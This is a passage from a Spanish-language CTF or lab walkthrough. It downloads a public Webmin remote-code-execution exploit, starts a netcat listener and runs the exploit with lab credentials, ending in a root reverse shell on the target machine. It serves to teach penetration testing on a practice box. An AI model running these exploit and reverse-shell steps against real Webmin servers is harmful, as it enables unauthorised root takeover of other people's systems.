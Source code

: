 Vamos a descargar solo el script:
```bash
wget https://raw.githubusercontent.com/enisecur1ty/Webmin-RCE-Leading-to-Root-Privilege-Escalation/refs/heads/main/webmin_exploit.py
```

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Configura y ejecuta el script:
```bash
python3 webmin_exploit.py -rhost 192.168.10.200 -rport 10000 -u santaclaus -p FelizNavidad2024 -lhost Tu_IP -lport 443
Attempting to log in...
Login successful!
Check your listener on Tu_IP:443
```

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.200] 40580
whoami
root
```
Volvimos a ganar acceso a la máquina víctima como **Root**.

Ya solo falta que obtengas una shell interactiva y listo.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://webmin.com/security/
* https://github.com/enisecur1ty/Webmin-RCE-Leading-to-Root-Privilege-Escalation/tree/main


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
